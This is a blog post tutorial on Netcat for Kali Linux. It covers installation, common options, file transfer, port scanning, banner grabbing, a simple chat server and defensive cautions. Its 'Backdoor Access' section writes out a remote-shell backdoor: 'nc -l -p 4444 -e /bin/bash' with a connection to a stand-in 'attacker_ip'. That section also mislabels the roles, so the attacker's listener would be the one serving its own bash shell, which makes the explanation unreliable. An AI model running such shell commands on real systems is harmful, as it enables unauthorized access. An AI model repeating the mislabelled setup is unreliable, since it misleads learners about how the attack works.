 ```yaml
---
title: "Exploring Netcat: The Swiss Army Knife of Networking on Kali Linux"
subtitle: 'Netcat is a versatile networking tool available on Kali Linux, offering functions from basic communication to advanced network troubleshooting. This guide covers its installation, essential commands, real-world uses, and the necessary cybersecurity precautions to prevent misuse. Understanding Netcat capabilities and risks ensures effective and secure network management.'

# Summary for listings and search engines
summary: 'A Comprehensive Guide to Installation, Commands, Real-World Applications, and Cybersecurity Precautions'

# Link this post with a project
projects: []

# Date published
date: '2024-01-07T00:00:00Z'

# Date updated
lastmod: '2024-01-09T00:00:00Z'

# Is this an unpublished draft?
draft: false

# Show this page in the Featured widget?
featured: false

# Featured image
# Place an image named `featured.jpg/png` in this page's folder and customize its options here.
image:
  caption: 'Image credit: [**By_Author_using_BingCreator**](featured.jpg)'
  focal_point: 'Smart'
  placement: 2
  preview_only: false

authors:
  - admin

tags:
  - CyberSecurity

categories:
  - CyberSecurity
  - KaliLinuxTools
---
```



### Introduction:

Netcat, often referred to as the "Swiss Army Knife" of networking, is a versatile tool that can be used for a multitude of tasks. From debugging and network exploration to being used as a backdoor in cyber attacks, Netcat’s range of capabilities makes it a powerful asset in the toolkit of both network administrators and cybersecurity professionals. This blog delves into the intricacies of Netcat on Kali Linux, providing a comprehensive overview of its installation, essential commands, real-world applications, and the cybersecurity precautions one must consider.
{style="text-align: justify;"}


### Installation of Netcat on Kali Linux

Netcat comes pre-installed on Kali Linux, making it readily available for use. 
However, if for any reason it needs to be installed or updated, the process is straightforward. 
Open a terminal and use the following command:

1) Update your package list:

```bash
sudo apt-get update
```

2) Install Netcat:

```bash
sudo apt-get install netcat
```

3) Verify the installation:

```bash
nc --version
```
This should display the installed version of Netcat, confirming that the installation was successful.

### Important Commands
Netcat's versatility is reflected in its wide range of commands. Below are some of the most critical commands and their uses:

**Basic Syntax**

```bash
nc [options] [hostname] [port]
```
**Common Options**

- -l : Listen mode for inbound connections.
- -v : Verbose mode, providing detailed output.
- -z : Zero-I/O mode, used for scanning.
- -w : Timeout for connections.

### Examples of Commands

1) Basic Connection

Connect to a specific port on a host:

```bash
nc example.com 80
```

2) Listening for Connections

Set up Netcat to listen on a specified port:

```bash
nc -l 1234
```

3) File Transfer

- **Sender:**

```bash
nc -l 1234 < file.txt
```

- **Receiver:**

```bash
nc host 1234 > file.txt
```

4) Port Scanning

Scan a range of ports on a target host:

```bash
nc -zv example.com 20-30
```

5) Banner Grabbing

Retrieve banners from a target host to identify services:

```bash
nc example.com 80
```
Type HEAD / HTTP/1.0 and press Enter twice to get the HTTP header information.

### Real-World Examples

**Network Troubleshooting**

Network administrators can use Netcat to troubleshoot network issues. For example, testing if a specific port on a remote server is open:

```bash
nc -vz example.com 80
```

This command checks if port 80 (HTTP) on the remote host is open and provides verbose output.

**Chat Server**

Netcat can be used to create a simple chat server for internal communication.

- Server:

```bash
nc -l 1234
```

- Client:

```bash
nc host 1234
```

Messages typed by the client are sent to the server and vice versa.

**Backdoor Access**

While ethically questionable and illegal without permission, Netcat can be used by attackers to establish backdoor access. It's critical for cybersecurity professionals to understand this use to defend against it.

- Attacker’s Listener:

```bash
nc -l -p 4444 -e /bin/bash
```

- Victim’s Machine:

```bash
nc attacker_ip 4444
```

### Cyber Cautions

Given its power, Netcat can pose significant security risks if misused. Here are some precautions to consider:

**Unauthorized Access**

Netcat can be used to bypass security measures, so ensure proper access controls and monitoring are in place.

**Network Scanning**

Regularly monitor network traffic for unusual Netcat activity which might indicate scanning or unauthorized access attempts.

**Firewall Rules**

Implement strict firewall rules to block unnecessary open ports and limit Netcat’s ability to be used maliciously.

**Logging and Alerts**

Set up logging and alerts for Netcat usage. Any unauthorized use should be immediately investigated.

### Conclusion

Netcat is an indispensable tool in the realm of networking and cybersecurity, offering a wide array of functionalities from basic communication to advanced network troubleshooting. Its versatility, however, also makes it a potential tool for malicious activities, necessitating robust security measures and vigilant monitoring. By understanding both its capabilities and the risks, professionals can effectively leverage Netcat to enhance network management and security.

{{% callout warning %}}
**Disclaimer:**
This blog post is intended for educational purposes only. The author and publisher do not endorse or condone any unauthorized or illegal activities conducted using **Netcat** or any other hacking tools. Always ensure that you have proper authorization before conducting security assessments or penetration tests.
{style="text-align: justify;"}
{{% /callout %}}